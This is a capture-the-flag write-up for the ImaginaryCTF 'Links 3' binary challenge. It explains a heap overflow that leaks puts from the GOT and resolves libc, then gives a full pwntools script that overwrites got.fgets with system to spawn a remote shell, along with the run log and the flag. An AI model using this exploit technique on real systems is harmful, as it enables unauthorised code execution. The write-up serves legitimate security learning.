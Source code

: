 # Links 3

[![VIDEO WALKTHROUGH](https://img.youtube.com/vi/GCkHwYBlsN8/0.jpg)](https://www.youtube.com/watch?v=GCkHwYBlsN8 "links3")

## Description

> And now you guys are exploiting my View Time feature that I put there solely for your convenience? Fine, then - no more time for you!

**[download challenge binary](https://imaginaryctf.org/r/iYVvf#links3)**

## Solution

I'll keep this short; since `Links 2`, the `view_time` function has been removed. We no longer have `system` in the GOT, but that doesn't matter.

As is common practice with stack-based buffer overflows, we can leak **any** Lib-C function address and then calculate our way back to the base of the binary. From there, we can add any offset we like to get the function of choosing, e.g. `libc.system` or a string, e.g. `libc."/bin/sh"`.

I chose to leak `got.puts`, when run against the server it leaks `0x7fbfd373eed0`. Once we get an address of a known function, we can take it to **[libc.blukat.me](https://libc.blukat.me)** or **[libc.rip](https://libc.rip)** and provide the function name and address.

We'll get a list of possible Lib-C library versions. The more functions we leak, the more we can narrow down the search.

In this case, the correct version was `libc6_2.35-0ubuntu3_amd64`, so we plug in the correct offsets.

```py
libc = puts - 0x80ed0
system = libc + 0x50d60
```

Running the binary, we get a shell.

```py
python exploit.py REMOTE puzzler7.imaginaryctf.org 2998
[+] Opening connection to puzzler7.imaginaryctf.org on port 2998: Done
[*] leaked got_puts: 0x7f470992eed0
[*] got_system: 0x7f47098fed60
[*] Switching to interactive mode
 What data do you want to write to this element?

>>> $ cat flag.txt
ictf{dammit_I'm_never_gonna_mix_up_64_and_0x64_again_it's_cost_me_three_flags_already}
```

**note:** If this write-up didn't make much sense, review `Links 1` and `Links 2` write-ups first 🙂

## Solve Script

```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links3'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 5 elements to list
for i in range(5):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Overflow element pointer with got.system address
# This is because we need libc leak for x64 stack align
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'3')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', (b'\x00' * 64) + flat([elf.got.puts, 0x51]))

# View list (leak libc.puts() address)
io.sendlineafter(b'>>>', b'1')
io.recvuntil(b'3: ')
puts = unpack(io.recv()[4:10].ljust(8, b'\x00'))
info("leaked got_puts: %#x", puts)
# libc6_2.35-0ubuntu3_amd64 - https://libc.rip/
libc = puts - 0x80ed0
system = libc + 0x50d60
info("got_system: %#x", system)

# Modify element in list
io.sendline(b'2')
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
# Overwrite got.fgets with system
io.sendlineafter(b'>>>', flat(system))

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Got Shell?
io.interactive()
```